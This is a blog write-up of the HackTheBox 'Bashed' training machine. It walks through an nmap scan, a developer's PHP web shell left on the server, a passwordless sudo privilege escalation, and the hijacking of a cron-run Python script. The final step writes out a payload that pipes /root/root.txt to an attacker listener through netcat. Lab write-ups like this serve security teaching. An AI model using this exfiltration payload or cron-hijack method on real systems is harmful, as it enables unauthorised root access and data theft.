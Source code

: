 ```yaml
---
Title: HackTheBox Bashed
Date: 2018-02-27
Category: Challenges
Status: published
---
```


Bashed is a great entry-level box for people who are just getting started with HackTheBox. If you are just getting started with penetration testing, the value of this box is less in its technical content but rather in giving you the chance to exercise through your processes once. A bit like jumping into the water for the first time after doing dry-swimming. Let's jump in!

First we run a basic nmap scan to see what ports are running on the server:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-27 19:06 CET
Nmap scan report for 10.10.10.68
Host is up (0.027s latency).
Not shown: 999 closed ports
PORT STATE SERVICE
80/tcp open http

Nmap done: 1 IP address (1 host up) scanned in 1.01 seconds
```

Navigating to port 80, this is our first sight:

![Image]({static}/images/882342764.png){: .image-process-article-image}

The blog seems to belong to the developer of a PHP reverse shell. They also mention that it was developed on this very server. Foreshadowing. Thinking about likely directories, we try out `upload `- nope; `uploads `- nope; `dev `- bingo.

![Image]({static}/images/503885520-1.png){: .image-process-article-image}

Going to the minified shell file, we are greeted with an interactive prompt as the `bashed` user. The nice developer saved us the work of constructing and uploading a payload ourselves.

![Image]({static}/images/927448957.png){: .image-process-article-image}

This is not enough to give us the user flag, however. A quick check through `sudo -l` exposes a trivial privilege escalation vector. We can upgrade to the `scriptmanager` user right away:

```
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

This gives us access to the user flag under `/home/scriptmanager/flag.txt`. Browsing the filesystem with our new
privileges now gives us access to the `/scripts` directory:

```sh
sudo -u scriptmanager
ls -alh /scripts

total 16K
drwxrwxr-- 2 scriptmanager scriptmanager 4.0K Dec 4 18:06 .
drwxr-xr-x 23 root root 4.0K Dec 4 13:02 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 17:03 test.py
-rw-r--r-- 1 root root 12 Feb 27 10:16 test.txt
```

The test.py file contains the following code:

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

The test file is owned by the root user. This, along with the regularly refreshing modification date, hints at the
presence of some cronjob executing the Python script with root privileges. As we have write-level access to the Python
file, we can escalate our privileges very easily by overwriting its contents with our own payload.

```
sudo -u scriptmanager sh -c "echo "import os;os.system('cat /root/root.txt | nc 10.10.14.210 4444')" > /scripts/test.py"
```

`os.system` simply takes a string with a shell command here and executes it as the current user. With netcat conveniently being present on the system, we simply transmit the root flag to our machine. After a short wait time, we receive the payload on our listener:

![Image]({static}/images/2114701126.png){: .image-process-article-image}
